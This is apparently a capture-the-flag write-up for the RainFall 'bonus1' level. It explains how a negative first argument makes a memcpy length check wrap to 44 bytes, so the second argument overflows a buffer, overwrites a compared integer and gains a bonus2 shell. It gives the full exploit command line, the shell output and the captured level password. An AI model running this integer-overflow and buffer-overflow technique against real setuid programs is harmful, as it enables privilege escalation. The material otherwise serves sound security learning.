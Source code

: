 # Bonus1

We can find an executable which segfault without arguments and do nothing with
```
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 bla
bonus1@RainFall:~$
```
After analyze it with gdb we only find a `main()` function.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/bonus1/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/bonus1/source.c) for full explanations.  
There is a call to `memcpy()` which is vulnerable to buffer overflow.  
The program take two arguments :  
- The first argument is converted to an integer using `atoi()` let's call it `nb`. If we want to access to `memcpy()`, `nb` must be less than or equal to 9.  
- The second argument is copied into a buffer located 40 bytes above the location of the `atoi()` return. Then `nb` is compared to `0x574f4c46`, if it equal the program call `execl()`.  
The problem is that `memcpy()` will copy only 4 * `nb` bytes of argv[2]. So 36 is the maximum number of bytes that can be copied into the buffer (9 * 4 = 36).  
Instead of a positive `nb` we can provide to memcpy a negative `nb`.  
How is it working ?
The value of `nb` is stored in a DWORD (32 bits), the minimum value of a 32-bit signed integer is -2147483647.
```
                                                   32 bits
                                                      |
int_min     = 0000 0000 0000 0000 0000 0000 0000 0000 | 1000 0000 0000 0000 0000 0000 0000 0001 = -2147483647
int_min * 4 = 1111 1111 1111 1111 1111 1111 1111 1110 | 0000 0000 0000 0000 0000 0000 0000 0100 = 4
```
We can see that after 32 bits, the rest is ignore so we gonna cheat a little bit.  
If we change the first 32 bits of int_min * 4 in order to have 44 (0b101100), we can retrieve the good decimal number to provide.
```
                                                    32 bits
                                                       |
random_int   = 1111 1111 1111 1111 1111 1111 1111 1110 | 0000 0000 0000 0000 0000 0000 0010 1100 = 44 (-8589934548)
random_int/4 = -2147483637

```
Now we have our first arg : -2147483637 which is less than 9 and will give us 44 when multiply by 4.  
For the second arg, we need to fill the buffer with the first 40 bytes (padding). Then the last 4 bytes will erase the value of `nb` and replace it by 0x574f4c46.
```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ exit
bonus1@RainFall:~$ su bonus2
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
bonus2@RainFall:~$
```
Bonus1 passed!
